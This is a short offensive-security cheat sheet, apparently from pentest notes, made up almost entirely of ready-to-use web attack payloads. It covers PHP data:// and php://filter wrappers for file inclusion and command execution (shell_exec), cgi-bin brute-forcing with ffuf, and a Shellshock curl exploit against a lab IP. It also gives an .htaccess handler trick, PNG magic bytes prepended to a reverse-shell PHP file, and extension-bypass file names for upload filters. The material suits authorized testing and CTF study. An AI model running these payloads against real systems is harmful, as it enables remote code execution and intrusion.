 PHP Wrapper:

```bash
# PHP Wrapper
data://text/plain,<? php echo shell_exec("dir") ?>

# PHP Wrapper Base64
data://text/plain,PD9waHAgZWNobyBzaGVsbF9leGVjKCJkaXIiKSA/Pgo=

# Display `admin.php` as Base64
php://filter/convert.base64-encode/resource="[DISPLAY-FILE]"

# Example 1
menu.php?file=data://text/plain,<?php echo shell_exec("dir")?>

# Example 2
menu.php?file=data://text/plain;base64,PD9waHAgZWNobyBzaGVsbF9leGVjKCJkaXIiKSA/Pgo=

# Example 3
menu.php?file=php://filter/convert.base64-encode/resource="[DISPLAY-FILE]"
```
### CGI-Bin

Bruteforcing CGI-Bin:

```bash
# Brute-Forcing
ffuf -u "http://[IP]/cgi-bin/FUZZ" -w "/usr/share/wordlists/dirb/common.txt" -e ".cgi, .sh, .pl"

# Exploit
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' "http://10.10.10.56/cgi-bin/[SCRIPT-NAME]"
```
### File Upload

.htaccess:

```bash
echo "AddType application/x-httpd-php .xxx" > .htaccess
```

Commands:

```bash
# Add `89 50 4E 47 0D 0A 1A 0A` into the beginning
hexeditor "reverse-shell.php"
```

File Extensions Names:
- `file.png.php`
- `file.png.pHp5`
- `file.php#.png`
- `file.php%00.png`
- `file.php\x00.png`
- `file.php%0a.png`
- `file.php%0d%0a.png`
- `file.phpJunk123png`
- `file.png.php`
- `file.png.Php5`
